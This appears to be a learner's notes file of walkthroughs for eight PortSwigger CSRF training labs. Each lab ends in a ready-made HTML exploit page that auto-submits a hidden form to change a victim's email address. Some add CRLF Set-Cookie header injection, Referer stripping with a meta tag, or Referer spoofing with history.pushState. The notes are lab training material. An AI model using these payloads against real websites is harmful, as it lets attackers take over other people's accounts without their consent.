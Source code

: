 <span style="color:yellow;font-weight:700;font-size:30px">
Cross-site request forgery (CSRF)

</span>
https://portswigger.net/web-security/csrf

<!-- 1. Lab: CSRF vulnerability with no defenses -->
https://portswigger.net/web-security/csrf/lab-no-defenses

goal:
To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

1. do the process of login and changing email to establish request format and syntax - send request to repeater:
POST /my-account/change-email HTTP/1.1\
Host: 0aa700d004d14148c0977450001c00a8.web-security-academy.net
Cookie: session=yCKgkq71rWvYSZOkOdEht0vvA2kdgiS3
..

email=attacker%40gmail.com


2. create a form on the server with the url from stage 1 - to be sent in clients behalf when he enters the maliocious site:
<html>
    <body>
        <form action="URL" method="POST">
            <input type="hidden" name="email" value="email@new.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>

3. final payload: 
#
  <html>
    <body>
        <form action="https://0aa700d004d14148c0977450001c00a8.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@gmail.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>


if site supports GET it can be done in a single line (without need for a site):
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">





<!-- 2. Lab: CSRF where token validation depends on request method -->
https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. 
smae as last lab - just change requets to GET:

1. do the process of login and changing email to establish request format and syntax - send request to repeater:
POST /my-account/change-email HTTP/1.1\
Host:0a3a009803bd4ed7c0a6186c000500e5.web-security-academy.net
..
email=attacker@gmail.com

2. change to GET method and copy url:
https://0a3a009803bd4ed7c0a6186c000500e5.web-security-academy.net/my-account/change-email?email=attacker@gmail.com


3. use this template:
<html>
    <body>
        <form method="GET" action="URL">
            <input type="hidden" name="email" value="email@new.com">
        </form>
        <script>
                document.forms[0].submit();
        </script>
    </body>
</html>

# final payload:

<html>
    <body>
        <form method="GET" action="https://0a3a009803bd4ed7c0a6186c000500e5.web-security-academy.net/my-account/change-email?email=attacker@gmail.com">
            <input type="hidden" name="email" value="blablabla" />
        </form>
        <script>
                document.forms[0].submit();
        </script>
    </body>
</html>


<!-- 3. Lab: CSRF where token validation depends on token being present -->
https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.


ommit the CSRF header in exploit site it as if it has no csrf (pretty dumb application of the CSRF):
<html>
    <body>
        <form action="https://0a27009a045fca44c096adf700fd0027.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@gmail.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>!

<!-- 4. Lab: CSRF where token is not tied to user session -->
https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session


To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. 

1. login and send request to change email - get 302 and send to repeater. try to resend the req from the reapeter and get 400 "Invalid CSRF token"
now we know its a 1-time token

2. intercept and catch 3 requests to reapeter for further analasys. open incognito window, sign in and do the same for carlos. make sure you drop each messege after sending to the repeater

3. try to use unused token of peter on peter old request to check coralation between session and toke. do it also for token from carlos on session of peter (or vice versa)
now we know no coralation exist we can use our token with any other user seesion

4. prepare html POST form with email and cdrf values. make sure to use only unsused token. test exploit on yourself. once successed - replce token with unused token and send it to victim.

working exploit:

<html>
    <body>
        <form action="https://0a2500e603186d67c02c0121009f009e.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@gmail.com" />
            <input type="hidden" name="csrf" value="Raj0C3E8iKUphSJxB587fdoYsYIxwTrt" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>


<!-- 5.Lab: CSRF where token is tied to non-session cookie -->
https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie


1. change csrf value - 400 "Invalid CSRF token"
2. change csrfKey value - 400 "Invalid CSRF token"
csrf values are paired
3. change session value - 302 login to new session
probably not related to csrf values
4. login to carlos in incognito mode send email-change request to repeater. 
5. use carlos csrf with peter csrfKey - 400 "Invalid CSRF token"
6. use peter csrf value pair on carlos session - 302 found
check at my account page to make sure it changed.
7. look for "Set-Cookie" HEADER in site responses: find set-cookie reflected on response to: GET /?search=bla HTTP/1.1  -->send to repeater
8. craft HEADER-injecting payload using %0d%0a (\r\n) which will be parsed into:
    ?search=bla \r\n
    set-cookie: csrfKey={csrfKey value}
final cookie-injecting payload:
/?search=bla%0d%0aSet-Cookie:%20csrfKey=gTJ5CEmATdd8sGCwH4Uo3NgqEd4uo7xP
10. test on repeter - 400 "Potentially dangerous search term". request in browser and see csrf cookie added with injected value
11. craft <img> tag to force-visit the cookie-loading link and execute onerror-submition of the form:
<img src="https://0ac200de030c4653c0b2248d00a500a7.web-security-academy.net/?search=bla%0d%0aSet-Cookie:%20csrfKey=gTJ5CEmATdd8sGCwH4Uo3NgqEd4uo7xP" onerror="document.forms[0].submit()">

12. craft html on exploit. make sure to use a paired csrf and csrfKey values:

<html>
    <body>
        <form method="POST" action="https://0ac200de030c4653c0b2248d00a500a7.web-security-academy.net/my-account/change-email">
            <input type="hidden" name="email" value="evil@new.com" />
            <input type="hidden" name="csrf" value="I3cdY6uXw5SWiE2FbnphGtw7GO2V2wH1" />
        </form>
        <img src="https://0ac200de030c4653c0b2248d00a500a7.web-security-academy.net/?search=bla%0d%0aSet-Cookie:%20csrfKey=gTJ5CEmATdd8sGCwH4Uo3NgqEd4uo7xP" onerror="document.forms[0].submit()">
    </body>
</html>


    
<!-- 6. Lab: CSRF where token is duplicated in cookie -->
https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie

1. check relation between csrf and csrfKey, check if any string will work as long as it will be identical between the 2 param

2. find set-cookie injection point and craft url:
https://0a5500bd03baf0c5c079115e00af0056.web-security-academy.net/?search=bla%0d%0aSet-Cookie:%20csrfKey=amotzrules

3. craft malicious site at exploit server:

<html>
    <body>
        <form action="https://0a5500bd03baf0c5c079115e00af0056.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="success@gmail.com" />
            <input type="hidden" name="csrf" value="amotzrules" />
            <input type="submit" value="submit request" />
        </form>
        <img src="https://0a5500bd03baf0c5c079115e00af0056.web-security-academy.net/?search=bla%0d%0aSet-Cookie:%20csrf=amotzrules" onerror="document.forms[0].submit()">
    </body>
</html>

note2self: not like lab 5 - there is no csrfKey - just csrf in both locations...

<!-- 7. Lab: CSRF where Referer validation depends on header being present -->
https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present

goal:
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

research refferer HEADER manipulation yeilds the following command:
<head>
<meta name="referrer" content="never">
</Head>


lets use it inside our exploit center with the form format of the previouse lab:
<html>
    <head>
        <meta name="referrer" content="never">
    </Head>
    <body>
        <form action="https://0a31004204da258bc0af6329003a00be.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="chang2@evil.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>


lab specific materials:
https://www.w3schools.com/tags/tag_meta.asp // what is <meta> tag
https://wiki.whatwg.org/wiki/Meta_referrer //  types of meta referrer commands:
The referrer metadata attribute can have one of four values for its content attribute:
    never
    always
    origin
    default


also:
https://moz.com/blog/meta-referrer-tag#How%20to%20use%20the%20meta%20referrer%20tag
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy


<!-- 8. Lab: CSRF with broken Referer validation -->
https://portswigger.net/web-security/csrf/lab-referer-validation-broken

goal:
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. 

1. test referer HEADER limitition: what is the shortest version of the url, does it need to be on the start or the end, 

original:
Referer: https://0a5b00e7045ec019c01c1622000300c5.web-security-academy.net/my-account
302 found
0a5b00e7045ec019c01c1622000300c5.web-security-academy.net
302 found
https:google.com#https://0a5b00e7045ec019c01c1622000300c5.web-security-academy.net
302 found

command to use:
History.pushState()
https://developer.mozilla.org/en-US/docs/Web/API/History/pushState
In an HTML document, the history.pushState() method adds an entry to the browser's session history stack. 
craft to add the referrer url to the HEADER:
<script>
        history.pushState("", "", "/?0a5b00e7045ec019c01c1622000300c5.web-security-academy.net")
</script>


lets craft our final html payload on the exploit server:

<html>
    <script>
        history.pushState("", "", "/?0a5b00e7045ec019c01c1622000300c5.web-security-academy.net")
    </script>
    <body>
        <form action="https://0a5b00e7045ec019c01c1622000300c5.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="chang2@evil.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>


important:
since browser ommit the strings after the "?" as default, lets add the refferer policy to force using the full url. we will insert it on the Head section:

Referrer-Policy: unsafe-url


#
unsuccessful tries:
worked on peter account - didnt work on victim: 

File:
/exploit?0a5b00e7045ec019c01c1622000300c5.web-security-academy.net

Head:
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

Body:
<html>
    <head>
        <meta name="referrer" content="always">
    </Head>
    <body>
        <form action="https://0a5b00e7045ec019c01c1622000300c5.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="chang2@evil.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>



###############################3333

general materials:
Defending against CSRF with SameSite cookies
https://portswigger.net/web-security/csrf/samesite-cookies

CSRF tokens
https://portswigger.net/web-security/csrf/tokens

XSS vs CSRF
https://portswigger.net/web-security/csrf/xss-vs-csrf